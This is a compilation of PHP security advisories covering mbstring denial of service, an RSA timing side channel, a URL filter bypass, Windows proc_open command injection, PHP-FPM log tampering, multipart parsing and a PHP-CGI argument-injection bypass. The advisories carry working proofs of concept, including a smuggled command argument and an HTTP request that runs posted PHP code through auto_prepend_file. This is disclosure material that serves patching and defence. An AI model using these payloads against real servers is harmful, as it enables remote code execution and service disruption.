A discernible pattern has not yet been identified, but a specific string consistently reproduces the issue.

### PoC
In PHP 8.3.3, execute:
```
<?php
mb_internal_encoding('UTF-8');
mb_encode_mimeheader(",9868949,9868978,9869015,9689100,9869121,9869615,9870690,9867116,98558119861183. ", "utf-8", "B");
```
The mb_encode_mimeheader function seems to enter an infinite loop and fails to return.

### Impact
Given that this function is integral to numerous email processing routines, including those handling potentially untrusted user inputs, this vulnerability could be exploited for denial-of-service attacks. For instance, CakePHP 5 relies on this function to encode email subjects.
https://github.com/cakephp/cakephp/blob/5.x/src/Mailer/Message.php#L815

## GHSA-hh26-4ppw-5864 — PHP is vulnerable to the Marvin Attack
- CVE: CVE-2024-2408 | Severity: medium | CVSS: 5.9 `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:N/A:N` | CWE: CWE-208, CWE-327, CWE-385
- Published: 2024-06-06T21:17:06Z | URL: https://github.com/php/php-src/security/advisories/GHSA-hh26-4ppw-5864
- Affected php/php: vulnerable 8.2.12 patched 
- Credits: tomato42

### Summary

The implementation of RSA decryption with PKCS#1 v1.5 padding is vulnerable to a timing variant of the Bleichenabcher attack called the [Marvin Attack](https://people.redhat.com/~hkario/marvin/).


### Details

The timing of the [`openssl_private_decrypt()`](https://www.php.net/manual/en/function.openssl-private-decrypt.php) function depends on there being a message returned or not, that can be used as an oracle in a Bleichenbacher style attack. That in turn will allow decryption of captured ciphertexts or forging signatures using the key used in the decryption API.

Running PHP 8.2.12 with OpenSSL 3.1.4 on Archlinux.

By executing a test with 100k measurement per probe on an AMD Ryzen 5 5600X, with no special configuration, I've got the following statistically significant result:
```
Sign test mean p-value: 0.3491, median p-value: 0.266, min p-value: 2.097e-14
Friedman test (chisquare approximation) for all samples
p-value: 4.725229447597475e-40
Worst pair: 3(no_structure), 7(valid_192)
Mean of differences: 2.50389e-07s, 95% CI: -1.19522e-07s, 5.698823e-07s (±3.447e-07s)
Median of differences: 6.00000e-08s, 95% CI: 4.00000e-08s, 7.000000e-08s (±1.500e-08s)
Trimmed mean (5%) of differences: 8.20218e-08s, 95% CI: 4.41569e-08s, 1.135944e-07s (±3.472e-08s)
Trimmed mean (25%) of differences: 6.99484e-08s, 95% CI: 3.93115e-08s, 9.622458e-08s (±2.846e-08s)
Trimmed mean (45%) of differences: 5.62543e-08s, 95% CI: 3.89805e-08s, 7.136500e-08s (±1.619e-08s)
Trimean of differences: 7.22500e-08s, 95% CI: 4.50000e-08s, 9.200000e-08s (±2.350e-08s)
Layperson explanation: Definite side-channel detected, implementation is VULNERABLE
```
confidence intervals for the differences between samples:


legend to the graph:
```
ID,Name
0,header_only
1,no_header_with_payload_48
2,no_padding_48
3,no_structure
4,signature_padding_8
5,valid_0
6,valid_48
7,valid_192
8,valid_246
9,valid_repeated_byte_payload_246_1
10,valid_repeated_byte_payload_246_255
11,zero_byte_in_padding_48_4
```
probes are explained in the [`step2.py`](https://github.com/tomato42/marvin-toolkit/blob/master/step2.py) script in the marvin-toolkit repo

### PoC

To reproduce the result, use the [marvin-toolkit](https://github.com/tomato42/marvin-toolkit).

Execute the step0.sh, step1.sh and step2-alt.sh (you may want to comment out generation of ciphertexts for 1024 and 4096 bit keys in the step2-alt.sh file).

After that, execute the reproducer capturing the timing of the ciphertexts:
```php
<?php

$privateKeyPath = 'rsa2048/pkcs8.pem';
$ciphertextPath = 'rsa2048_repeat/ciphers.bin';
$ciphertextSize = 256;
$timesPath = 'rsa2048_repeat/raw_times.csv';

$privateKey = openssl_pkey_get_private(file_get_contents($privateKeyPath), '');

if ($privateKey === false) {
    die('Failed to load private key');
}

$ciphertextHandle = fopen($ciphertextPath, 'rb');

if ($ciphertextHandle === false) {
    die('Failed to open ciphertext file');
}

$timesPath = fopen($timesPath, 'wt');

if ($timesPath === false) {
    die("Can't open output file");
}

if (!fwrite($timesPath, "raw_times\n")) {
    die("Can't write to output file");
}

while (!feof($ciphertextHandle)) {

    $encryptedData = fread($ciphertextHandle, $ciphertextSize);
    $decryptedData = null;

    $timeBefore = hrtime(true);

    $result = openssl_private_decrypt($encryptedData, $decryptedData, $privateKey);

    $timeAfter = hrtime(true);
    $timeDiff = $timeAfter - $timeBefore;
    if (!fwrite($timesPath, "{$timeDiff}\n")) {
        die("can't write to file");
    }

}

openssl_pkey_free($privateKey);
?>
```

Then extract the results based on order they've been executed:
```
PYTHONPATH=tlsfuzzer marvin-venv/bin/python3 tlsfuzzer/tlsfuzzer/extract.py -l rsa2048_repeat/log.csv -o rsa2048_repeat --raw-times rsa2048_repeat/raw_times.csv --clock-frequency 1000
```
(we specify clock frequency as 1000MHz as the script above is using ns resolution clock)

and run analysis:
```
PYTHONPATH=tlsfuzzer marvin-venv/bin/python3 tlsfuzzer/tlsfuzzer/analysis.py --verbose -o rsa2048_repeat
```

Detailed information about generated files is present in the [tlsfuzzer documentation](https://tlsfuzzer.readthedocs.io/en/latest/timing-analysis.html#interpreting-the-results). Therein are also instructions to improve quality of gathered data (useful for proving absence of a side-channel, as that requires collection of much larger sample sizes)

### Impact
All users of the RSA decryption API using it with the PKCS#1 v1.5 padding will be vulnerable to timing attacks.

## GHSA-w8qr-v226-r27w — Filter bypass in filter_var (FILTER_VALIDATE_URL)
- CVE: CVE-2024-5458 | Severity: medium | CVSS: 5.3 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:N` | CWE: 
- Published: 2024-06-09T18:13:48Z | URL: https://github.com/php/php-src/security/advisories/GHSA-w8qr-v226-r27w
- Affected /: vulnerable 7.3.27 - 7.3.33, 7.4.15 - 7.4.33, 8.0.2 - 8.0.30, 8.1.0 - 8.1.28, 8.2.0 - 8.2.19, 8.3.0 - 8.3.7 patched 8.1.29, 8.2.20, 8.3.8.
- Credits: c01l

### Summary
An early-return in filter_var (FILTER_VALIDATE_URL) will result in invalid user information (username + password part of URLs) being treated as valid user information.

This causes the same problems as CVE-2020-7071, but with IPv6 host parts.

### Details
The function `php_filter_validate_url` in [php-src/ext/filter/logical_filters.c](https://github.com/php/php-src/blob/master/ext/filter/logical_filters.c) contains the logic for validating URLs.

For HTTP-IPv6 addresses the implementation contains an early return statement that results in further checks on the user_info being skipped.
The offending return statement is at: https://github.com/php/php-src/blob/master/ext/filter/logical_filters.c#L618

This results in invalid user information being passed as valid for URLs with IPv6 Hosts.

Fix: Restructuring the code to include the user_info checks if the IPv6-host part is correct.
This could be done by only return "SUCCESS" if the end of the function is reached.

### PoC

To prove the user info check was skipped I looked for a character that is not allowed in usernames. (Based on the validation code in `is_userinfo_valid`) 
I chose `[`.
The following statements show that the handling of the URLs is different if the "host" part of the URL is changed.

```php
var_dump(filter_var("http://t[est@127.0.0.1", FILTER_VALIDATE_URL));
var_dump(filter_var("http://t[est@[::1]", FILTER_VALIDATE_URL));
```
Output for 7.3.27 - 7.3.33, 7.4.15 - 7.4.33, 8.0.2 - 8.0.30, 8.1.0 - 8.1.28, 8.2.0 - 8.2.19, 8.3.0 - 8.3.7
```
bool(false)
string(18) "http://t[est@[::1]"
```
Output for 7.3.26, 7.4.14, 8.0.1 (CVE-2020-7071 was patched here!)
```
bool(false)
bool(false)
```
Output for 5.2.0 - 5.2.12, 5.3.0 - 5.3.1, 7.0.0 - 7.0.33, 7.1.0 - 7.1.33, 7.2.0 - 7.2.34, 7.3.0 - 7.3.25, 7.4.0 - 7.4.13, 8.0.0
```
string(22) "http://t[est@127.0.0.1"
string(18) "http://t[est@[::1]"
```
Output for 5.2.13 - 5.2.17, 5.3.2 - 5.3.29, 5.4.0 - 5.4.45, 5.5.0 - 5.5.38, 5.6.0 - 5.6.40
```
string(22) "http://t[est@127.0.0.1"
bool(false)
```

### Impact

This bug impacts users that expect only completely valid URLs to be returned by `filter_var` (FILTER_VALIDATE_URL).
As this function is meant to validate user supplied strings this will be exposed to raw user input often.

As this is almost the same vulnerability as CVE-2020-7071 this should also have a MEDIUM impact.

Related info:
Bugfix for invalid usernames: https://bugs.php.net/bug.php?id=77423 (contains another example POC)


## GHSA-9fcc-425m-g385 — bypass CVE-2024-1874
- CVE: CVE-2024-5585 | Severity: high | CVSS: 7.7 `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:L` | CWE: CWE-78
- Published: 2024-06-09T18:37:46Z | URL: https://github.com/php/php-src/security/advisories/GHSA-9fcc-425m-g385
- Affected /: vulnerable 8.3.6 patched 8.1.29, 8.2.20, 8.3.8
- Credits: tianstcht

### Summary
same as CVE-2024-1874
> due to the improper handling of command line arguments on Windows, maliciously crafted arguments can inject arbitrary commands even if the bypass_shell option is enabled.

### Details
Add a space at the end of filename, others are the same as [CVE-2024-1874](https://github.com/php/php-src/security/advisories/GHSA-pc52-254m-w9w7)

### PoC
1. Save the following file as test.bat
```
echo hello
```

2. Save the following file as 1.php, **notiece the space at the end of argv-filename**
```
<?php
$descriptorspec = [STDIN, STDOUT, STDOUT];
$proc = proc_open(["test.bat ", "\"&notepad.exe"], $descriptorspec, $pipes, null, null, array("bypass_shell" => true));
proc_close($proc);
```

3. Run it with PHP and confirm that notepad.exe is popped up.

### Impact
Malicious command line arguments in windows platform


## GHSA-865w-9rf3-2wh5 — [PHP-FPM] Logs from childrens may be altered 
- CVE: CVE-2024-9026 | Severity: low | CVSS: 3.3 `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N` | CWE: CWE-117
- Published: 2024-09-27T17:50:07Z | URL: https://github.com/php/php-src/security/advisories/GHSA-865w-9rf3-2wh5
- Affected /: vulnerable < 8.1.30 patched 8.1.30
- Affected /: vulnerable < 8.2.24 patched 8.2.24
- Affected /: vulnerable < 8.3.12 patched 8.3.12
- Credits: Faeris95

### Summary
In PHP-FPM, when configured to catch workers output through `catch_workers_output = yes` configuration, it may be possible to pollute the final log with up to 4 characters from the `FPM_STDIO_CMD_FLUSH` macro, or remove up to 4 characters from the logs. Additionally, If PHP-FPM is configured to use a syslog, it seems that much more characters can be excluded from the logs, even though it has not been tested.

Note that this issue was found and reported as part of Quarkslab security audit on PHP-SRC with the OSTIF and PHP Foundation. 

### Details

The method `static void fpm_stdio_child_said` defined in `sapi/fpm/fpm/fpm_stdio.c` is responsible for parsing and writing the logs out from workers input.

The interesting part is the following : 
``` C
	while (1) {
stdio_read:
		in_buf = read(fd, buf, sizeof(buf) - 1);
		if (in_buf <= 0) { /* no data */
			if (in_buf == 0 || !PHP_IS_TRANSIENT_ERROR(errno)) {
				/* pipe is closed or error */
				read_fail = (in_buf < 0) ? in_buf : 1;
			}
			break;
		}
		start = 0;
		if (cmd_pos > 0) {
			if 	((sizeof(FPM_STDIO_CMD_FLUSH) - cmd_pos) <= in_buf &&
					!memcmp(buf, &FPM_STDIO_CMD_FLUSH[cmd_pos], sizeof(FPM_STDIO_CMD_FLUSH) - cmd_pos)) {
				zlog_stream_finish(log_stream);
				start = cmd_pos;
			} else {
				zlog_stream_str(log_stream, &FPM_STDIO_CMD_FLUSH[0], cmd_pos);
			}
			cmd_pos = 0;
		}
		for (pos = start; pos < in_buf; pos++) {
			switch (buf[pos]) {
				case '\n':
					zlog_stream_str(log_stream, buf + start, pos - start);
					zlog_stream_finish(log_stream);
					start = pos + 1;
					break;
				case '\0':
					if (pos + sizeof(FPM_STDIO_CMD_FLUSH) <= in_buf) {
						if (!memcmp(buf + pos, FPM_STDIO_CMD_FLUSH, sizeof(FPM_STDIO_CMD_FLUSH))) {
							zlog_stream_str(log_stream, buf + start, pos - start);
							zlog_stream_finish(log_stream);
							start = pos + sizeof(FPM_STDIO_CMD_FLUSH);
							pos = start - 1;
						}
					} else if (!memcmp(buf + pos, FPM_STDIO_CMD_FLUSH, in_buf - pos)) {
						cmd_pos = in_buf - pos;
						zlog_stream_str(log_stream, buf + start, pos - start);
						goto stdio_read;
					}
					break;
			}
		}
		if (start < pos) {
			zlog_stream_str(log_stream, buf + start, pos - start);
		}
	}
```

For each characters of `buf`, it is checked whether it is `\n` or `\0`. `\n` is used to indicate that the current line of log is terminated and can be written. `\0` is used to detect the `FPM_STDIO_CMD_FLUSH` macro characters sequence, defined as `\0fscf\0` and used to flush logs. It acts the same as `\n`.

If a `\0` character is encountered, and if the end of the buffer is reached before the full comparison with `FPM_STDIO_CMD_FLUSH` can be achieved, then the comparison is done with what is currently available: 

``` C
	} else if (!memcmp(buf + pos, FPM_STDIO_CMD_FLUSH, in_buf - pos)) {
		cmd_pos = in_buf - pos;
		zlog_stream_str(log_stream, buf + start, pos - start);
		goto stdio_read;
	}
```

If it matches, the number of characters that have already been checked is saved in `cmd_pos` and a `goto` statement bring the control flow back to the top of the loop so that the buffer can be filled again. After that, the comparison continues :

``` C
start = 0;
if (cmd_pos > 0) {
	if 	((sizeof(FPM_STDIO_CMD_FLUSH) - cmd_pos) <= in_buf &&
			!memcmp(buf, &FPM_STDIO_CMD_FLUSH[cmd_pos], sizeof(FPM_STDIO_CMD_FLUSH) - cmd_pos)) {
		zlog_stream_finish(log_stream);
		start = cmd_pos; // IT SHOULD BE sizeof(FPM_STDIO_CMD_FLUSH) - cmd_pos
	} else {
		zlog_stream_str(log_stream, &FPM_STDIO_CMD_FLUSH[0], cmd_pos);
	}
	cmd_pos = 0;
}
```

As `cmd_pos` is superior to 0, the comparison continues with the remaining characters to compare with. If it matches, the current buffer is written and flushed. The cursor is set to `cmd_pos` and the iteration on the buffer starts again. 
However, as is, the rest of the `FPM_STDIO_CMD_FLUSH` characters sequence is added to the next output, including the `\0` character, or, the first bytes of the next outputs are not included depending of the value of `cmd_pos`.

That is because `start` shouldn't be set to `cmd_pos` value, which correspond to the number of characters that have already been compared, from the previous buffer. It should be set to `sizeof(FPM_STDIO_CMD_FLUSH) - cmd_pos` instead.

Additionnally and more generally, if a null character is contained in the log and a syslog is configured, it appears that the final string to be written won't contains the characters after this null character. Indeed, logs are sent by calling `php_syslog(syslog_priorities[zlog_level], "%s", stream->buf.data);` from `zlog_stream_buf_append` defined as :
``` C
static ssize_t zlog_stream_buf_flush(struct zlog_stream *stream) /* {{{ */
{
	ssize_t written;

#ifdef HAVE_SYSLOG_H
	if (stream->use_syslog) {
		zlog_stream_buf_copy_char(stream, '\0');
		php_syslog(syslog_priorities[zlog_level], "%s", stream->buf.data);
		--stream->len;
	}
#endif

	if (external_logger != NULL) {
		external_logger(stream->flags & ZLOG_LEVEL_MASK,
				stream->buf.data + stream->prefix_len, stream->len - stream->prefix_len);
	}
	zlog_stream_buf_copy_char(stream, '\n');
	written = zlog_stream_direct_write(stream, stream->buf.data, stream->len);
	stream->len = 0;

	return written;
}
```
It seams pretty obvious that a null character will be treated as the end of the buffer regarding the following line : `		zlog_stream_buf_copy_char(stream, '\0');` which is called right before`php_syslog` is, and that the buffer data is passed as a parameter without any information on its length.

I anyway checked how the buffer was formatted and sent to the syslog server. The buffer and arguments are processed by `xbuf_format_converter` function defined in `/main/spprintf.c`, where, as expected,  the length of the argument is determined using `strlen` function, which will stops on `\0` :

``` C
					case 's':
					s = va_arg(ap, char *);
					if (s != NULL) {
						if (!adjust_precision) {
							s_len = strlen(s);
						} else {
							s_len = zend_strnlen(s, precision);
						}
					} else {
						s = S_NULL;
						s_len = S_NULL_LEN;
					}
					pad_char = ' ';
					break;
```

Note that some prerequisites may be needed in order to exploit this vulnerability from the outside world. Auditing the communications between PHP-FPM Master and its workers was one of the asked key tasks regarding Quarkslab audit.

### PoC
Using the following code, it is possible to reproduce the described behavior on log pollution, up to 4 characters.
The function `fpm_stdio_child_said` has been extracted and adapted so it can read data from a buffer instead of a file descriptor: 

``` C
#include "fuzzer.h"

#include "Zend/zend.h"
#include "main/php_config.h"
#include "main/php_main.h"
#include "sapi/fpm/fpm/fpm.h"
#include "sapi/fpm/fpm/fpm_children.h"
#include "sapi/fpm/fpm/fpm_stdio.h"

#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

#include "fuzzer-sapi.h"


#define FPM_STDIO_CMD_FLUSH "\0fscf"
#define BUFF_SIZE 8192


static void fpm_stdio_child_said_poc(char *Data, size_t Size, uint32_t buffer) /* {{{ */
{

	char *buf = Data;
	int is_stdout;
	int in_buf = 0, cmd_pos = 0, pos, start;
	int read_fail = 0, create_log_stream;
    size_t read_bytes = 0;
	struct zlog_stream *log_stream;


    log_stream = malloc(sizeof(struct zlog_stream));
    zlog_stream_init_ex(log_stream, ZLOG_WARNING, STDERR_FILENO);
    log_stream->use_buffer = buffer;
    log_stream->buf_init_size = 1024; //added
    zlog_stream_set_decorating(log_stream, 1);
    zlog_stream_set_wrapping(log_stream, ZLOG_TRUE);
    zlog_stream_set_msg_prefix(log_stream, STREAM_SET_MSG_PREFIX_FMT,
            "www", (int) 99999, "stdout");
    zlog_stream_set_msg_quoting(log_stream, ZLOG_TRUE);
    zlog_stream_set_is_stdout(log_stream, 1);
    zlog_stream_set_child_pid(log_stream, 99999);

    size_t readTotalBytes = 0;
    int iteration = 0;

	while (1) {
    read_stdio:
        buf += read_bytes;
        readTotalBytes += read_bytes;

        if (readTotalBytes == Size) {
            in_buf = 0;
            break;
        } else if (readTotalBytes + 1023 > Size) {
            in_buf = (int)(Size - readTotalBytes);
            
        } else {
            in_buf = 1023;
        }

        read_bytes = in_buf;
            
		if (in_buf <= 0) { /* no data */
				/* pipe is closed or error */
			read_fail = (in_buf < 0) ? in_buf : 1;
			break;
		}
		start = 0;
		if (cmd_pos > 0) {
			if 	((sizeof(FPM_STDIO_CMD_FLUSH) - cmd_pos) <= in_buf &&
					!memcmp(buf, &FPM_STDIO_CMD_FLUSH[cmd_pos], sizeof(FPM_STDIO_CMD_FLUSH) - cmd_pos)) {
				zlog_stream_finish(log_stream);
				start = cmd_pos;
			} else {
				zlog_stream_str(log_stream, &FPM_STDIO_CMD_FLUSH[0], cmd_pos);
			}
			cmd_pos = 0;
		}
		for (pos = start; pos < in_buf; pos++) {
			switch (buf[pos]) {
				case '\n':
					zlog_stream_str(log_stream, buf + start, pos - start);
					zlog_stream_finish(log_stream);
					start = pos + 1;
					break;
				case '\0':
					if (pos + sizeof(FPM_STDIO_CMD_FLUSH) <= in_buf) {
						if (!memcmp(buf + pos, FPM_STDIO_CMD_FLUSH, sizeof(FPM_STDIO_CMD_FLUSH))) {
							zlog_stream_str(log_stream, buf + start, pos - start);
							zlog_stream_finish(log_stream);
							start = pos + sizeof(FPM_STDIO_CMD_FLUSH);
							pos = start - 1;
                            
						}
					} else if (!memcmp(buf + pos, FPM_STDIO_CMD_FLUSH, in_buf - pos)) {
						cmd_pos = in_buf - pos;
						zlog_stream_str(log_stream, buf + start, pos - start);
						goto read_stdio;
					}
					break;
			}
		}
		if (start < pos) {
			zlog_stream_str(log_stream, buf + start, pos - start);
		}

        in_buf = 0;
	}

	if (read_fail && log_stream) {
        zlog_stream_set_msg_suffix(log_stream, NULL, ", pipe is closed");
        zlog_stream_finish(log_stream);
	}

    zlog_stream_destroy(log_stream);
    if(log_stream)
        free(log_stream);
}


int main(int argc, char **argv) {
	char input[BUFF_SIZE+1];
    memset(input, 0, BUFF_SIZE+1);
    FILE * fptr = NULL;

    if(argc > 1 && argc == 2) {
        fptr = fopen(argv[1], "rb");
        fread(input, BUFF_SIZE, 1, fptr);

    } else {
        fgets(input, BUFF_SIZE, stdin);
    }

    for(int i=0; i<2; i++) {
        fpm_stdio_child_said_poc(input, BUFF_SIZE, i);
    }
    if (fptr)
        fclose(fptr);
	return 0;
}
```

As a first demonstration, we're filling the buffer with data and ends it with the first character of `FPM_STDIO_CMD_FLUSH` so that the end of the buffer will contains `\[...]AAAQuarkslab\0\0`

``` shell
root@r:~/php-src# python3 -c 'print("A" * 1013 + "Quarkslab"+ "\0fscf\0" + "Quarkslab")' | ./sapi/fuzzer/php-fuzz-std-fpm
[24-Jul-2024 15:02:00] WARNING: [pool www] child 99999 said into stdout: "AAA[...]AAA"
[24-Jul-2024 15:02:00] WARNING: [pool www] child 99999 said into stdout: "AAA[...]AAAQuarkslab"
[24-Jul-2024 15:02:00] WARNING: [pool www] child 99999 said into stdout: "scfQuarkslab"
```

The null character isn't showed because the shell ignores it but it is included in the output.

In order to suppress up to 4 characters, one has to write all the characters of  `FPM_STDIO_CMD_FLUSH` except the last one in the end of the buffer :

``` shell
root@r:~/php-src# python3 -c 'print("A" * 1009 + "Quarkslab"+ "\0fscf\0" + "Quarkslab")' | ./sapi/fuzzer/php-fuzz-std-fpm
[24-Jul-2024 16:12:08] WARNING: [pool www] child 99999 said into stdout: "AAA[...]AAA"
[24-Jul-2024 16:12:08] WARNING: [pool www] child 99999 said into stdout: "AAA[...]AAAQuarkslab"
[24-Jul-2024 16:12:08] WARNING: [pool www] child 99999 said into stdout: "kslab"
```

### Impact
The impact is low.
Users of PHP-FPM that redirect `stdout` and `stderr` of the workers towards the master process are be affected. If the length of the messages can be controlled, logs can be polluted by including part of `FPM_STDIO_CMD_FLUSH`, or stripped from up to 4 characters. 
If a SYSLOG is configured and a null character can be injected in the messages sent by the workers, it seems that the rest of the log is not sent.


## GHSA-9pqp-7h25-4f32 — Erroneous parsing of multipart form data
- CVE: CVE-2024-8925 | Severity: low | CVSS: 3.1 `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:N/I:L/A:N` | CWE: CWE-1286
- Published: 2024-09-27T17:50:21Z | URL: https://github.com/php/php-src/security/advisories/GHSA-9pqp-7h25-4f32
- Affected /: vulnerable < 8.1.30 patched 8.1.30
- Affected /: vulnerable < 8.2.24 patched 8.2.24
- Affected /: vulnerable < 8.3.12 patched 8.3.12
- Credits: mihailkirov

### Summary
Erroneous parsing of multipart form data contained in an HTTP POST request could lead to legitimate data not being processed thus, violating data integrity. 

### Details

A bug was discovered in the parsing of multipart form data contents, affecting both file and input form data. If a multipart form data payload contains a valid prefix `X` of the defined boundary `B` such that  `5Kib` < `|X|` < `|B|` < `8Kib`, the logic responsible for parsing and storing the multipart payload fails to correctly extract the contents between two boundaries. This results in a violation of data integrity. The issue lies in the partial match handling in the following function:

```c
// main/rfc1867.c:556
/*
 * Search for a string in a fixed-length byte string.
 * If partial is true, partial matches are allowed at the end of the buffer.
 * Returns NULL if not found, or a pointer to the start of the first match.
 */
static void *php_ap_memstr(char *haystack, int haystacklen, char *needle, int needlen, int partial)
{
	int len = haystacklen;
	char *ptr = haystack; 
	/* iterate through first character matches */
	while( (ptr = memchr(ptr, needle[0], len)) ) {
		/* calculate length after match */
		len = haystacklen - (ptr - (char *)haystack); // 
		if (memcmp(needle, ptr, needlen < len ? needlen : len) == 0 && (partial || len >= needlen)) { // partial match here if partial != 0
			break;
		}
		/* next character */
		ptr++; len--;
	}
	return ptr;
}
```

This is called by the following functions when the contents between two boundaries have to be extracted after parsing the MIME headers:

```c
// main/rfc1867.c:580
static size_t multipart_buffer_read(multipart_buffer *self, char *buf, size_t bytes, int *end)
{
	size_t len, max;
	char *bound;
	
	/* fill buffer if needed */
	if (bytes > (size_t)self->bytes_in_buffer) {
		fill_buffer(self);
	}
	int i=0;
	while (self->buf_begin[i] && self->buf_begin[i] != '\r' ) i++;
	
	/* look for a potential boundary match, only read data up to that point */
	if ((bound = php_ap_memstr(self->buf_begin, self->bytes_in_buffer, self->boundary_next, self->boundary_next_len, 1))) { // partial match on
		max = bound - self->buf_begin;
		if (end && php_ap_memstr(self->buf_begin, self->bytes_in_buffer, self->boundary_next, self->boundary_next_len, 0)) {
			*end = 1;
		}
	} else {
		max = self->bytes_in_buffer;
	}
	/* maximum number of bytes we are reading */
	len = max < bytes-1 ? max : bytes-1;
	
	/* if we read any data... */
	if (len > 0) {
		/* copy the data */
		memcpy(buf, self->buf_begin, len);
		buf[len] = 0;
		if (bound && len > 0 && buf[len-1] == '\r') {
			buf[--len] = 0;
		}
		
		/* update the buffer */
		self->bytes_in_buffer -= (int)len;
		self->buf_begin += len;
	}
	return len;
}
/*
  XXX: this is horrible memory-usage-wise, but we only expect
  to do this on small pieces of form data.
*/
static char *multipart_buffer_read_body(multipart_buffer *self, size_t *len)
{
	char buf[FILLUNIT], *out=NULL; // FILLUNIT = 5*1024
	size_t total_bytes=0, read_bytes=0;
	while((read_bytes = multipart_buffer_read(self, buf, sizeof(buf), NULL))) {
		out = erealloc(out, total_bytes + read_bytes + 1);
		memcpy(out + total_bytes, buf, read_bytes);
		total_bytes += read_bytes;
	}
	if (out) {
		out[total_bytes] = '\0';
	}
	*len = total_bytes;
	return out;
}
```


### PoC
The below `python` payload was used in a PHP-FPM environment coupled with a Nginx server. No particular configuration was used to couple the services. Two payloads triggering the bug are presented below:

```python
# payload 1 - the string "\r\n--e932" is not included in the constructed data structure later 
# on submitted to a PHP script
boundary = "e932eddb2559cca708c5cb806f24abfb
content_type = f"multipart/form-data; boundary={boundary}"
msg2 =  f'--{boundary}\r\nContent-Disposition: form-data; name="koko"\r\n\r\n' \
+ 'A'*(5068+44) + f'\r\n--e932\n--{boundary}--' 
```

```python
# payload 1 - the payload "\r\n--{boundary[:len(boundary)-5]}' + 'C'*100 " is again not included 
# in the constructed data structure later on submitted to a PHP script

boundary = 'A'*(6*1024)
content_type = f"multipart/form-data; boundary={boundary}"
body = f'--{boundary}\r\n' + 'Content-Disposition: form-data; name="koko"\r\n\r\n' \
+ f'BBB\r\n--{boundary[:len(boundary)-5]}' + 'C'*100 + f"\r\n--{boundary}--"

```

The above payloads illustrate that a prefix of the boundary is considered as a valid boundary and the processing of what is after this prefix stops.

The PHP script which can be use to illustrate the bug by writing the contents of the form into a file is the following:

```php
$name = $_POST['koko']; 
$file_path = '/tmp/parsing-bug.txt';
$file = fopen($file_path, 'w');
if ($file) {
        fwrite($file, $name . PHP_EOL);        
        fclose($file);
        echo 'The name has been successfully written to the file.';
  }

```
To confirm that the 100 "C"s from the second payload are not included in the resulting file:

```bash
# tr -cd 'C' < /tmp/parsing-bug.txt | wc -c
0
```

### Impact

The parsing bug violates data integrity. In the context where an attacker is capable of inserting a maliciously crafted payload at a desired location alongside other legitimate user payloads and is under control of other request parts such as the boundary, they can exclude portions of the legitimate data. 


## GHSA-p99j-rfp4-xqvq — PHP CGI Parameter Injection Vulnerability (CVE-2024-4577 bypass)
- CVE: CVE-2024-8926 | Severity: medium | CVSS: None `None` | CWE: 
- Published: 2024-09-27T17:50:38Z | URL: https://github.com/php/php-src/security/advisories/GHSA-p99j-rfp4-xqvq
- Affected /: vulnerable < 8.1.30 patched 8.1.30
- Affected /: vulnerable < 8.2.24 patched 8.2.24
- Affected /: vulnerable < 8.3.12 patched 8.3.12

# PHP CGI Parameter Injection Vulnerability

This vulnerability is a bypass of CVE-2024-4577 when using a non-standard configuration of Windows codepages, only obtainable through the registry by pointing the ACP codepage to an OEM codepage. The required configuration is unlikely to occur in a real environment.

## Reproduction:
The reproduction environment is similar to CVE-2024-4577.

1. Install xampp on Windows and uncomment the following content in httpd-xampp.conf:

```
#
# PHP-CGI setup
#
<FilesMatch "\.php$">
    SetHandler application/x-httpd-php-cgi
</FilesMatch>
<IfModule actions_module>
    Action application/x-httpd-php-cgi "/php-cgi/php-cgi.exe"
</IfModule>
```

2. Download the latest PHP installation package.
https://windows.php.net/downloads/releases/php-8.3.8-nts-Win32-vs16-x64.zip
After decompression, stop xampp first, and then copy all the decompressed files to C:\xampp\php .
This is because xampp has not updated the latest version of PHP, so we need to update it manually.

3. Modify the ACP and OEMCP fields under the registry `\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Nls\CodePage` to 437
Restart the system

4. POC
https://xxxxurlxxxx.com/?%a8-s%a8

or 

```
POST /?%a8-d%a8+allow_url_include%3d1+%a8-d%a8+auto_prepend_file%3dphp://input HTTP/1.1
Host: {{host}}
User-Agent: curl/8.3.0
Accept: */*
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

<?php
phpinfo();
?> 
```

## Vulnerability principle:
In many code pages, Windows converts some wide characters to ", such as 0xa8 in 437 code page.
When querystring is %a8-s%a8, Windows will first convert %a8 to ", and then remove the quotation marks before and after the command line parameters, that is, remove the quotation marks before and after -s.
Finally, php-cgi.exe extracts only -s from argv, successfully bypassing the patch for CVE-2024-4577.

## Affected scope:
Latest version of PHP
**Affected code page:**
"37"="c_037.nls"         ;IBM EBCDIC* U.S./Canada
"1026"="c_1026.nls"      ;IBM EBCDIC* Latin-5 Turkey
C_1047.NLS
C_1140.NLS
C_1142.NLS
C_1143.NLS
C_1144.NLS
C_1145.NLS
C_1146.NLS
C_1147.NLS
C_1148.NLS
C_1149.NLS
"20273"="c_20273.nls"    ;IBM EBCDIC  Germany
"20277"="c_20277.nls"    ;IBM EBCDIC  Denmark/Norway
"20278"="c_20278.nls"    ;IBM EBCDIC  Finland/Sweden
"20280"="c_20280.nls"    ;IBM EBCDIC  Italy
"20284"="c_20284.nls"    ;IBM EBCDIC  Latin America/Spain
"20285"="c_20285.nls"    ;IBM EBCDIC  United Kingdom
"20290"="c_20290.nls"    ;IBM EBCDIC  Japanese Katakana Extended
"20297"="c_20297.nls"    ;IBM EBCDIC  France
"20420"="c_20420.nls"    ;IBM EBCDIC  Arabic
"20423"="c_20423.nls"    ;IBM EBCDIC  Greek
C_20424.NLS
"20833"="c_20833.nls"    ;IBM EBCDIC  Korean Extended
"20838"="c_20838.nls"    ;IBM EBCDIC  Thai
"20871"="c_20871.nls"    ;IBM EBCDIC  Icelandic
"20880"="c_20880.nls"    ;IBM EBCDIC  Cyrillic
"20905"="c_20905.nls"    ;IBM EBCDIC  Turkish
C_20924.NLS
"21025"="c_21025.nls"    ;IBM EBCDIC  Cyrillic
"437"="c_437.nls"        ;OEM*     United States
"500"="c_500.nls"        ;IBM EBCDIC*   International
"860"="c_860.nls"        ;OEM*      Portuguese
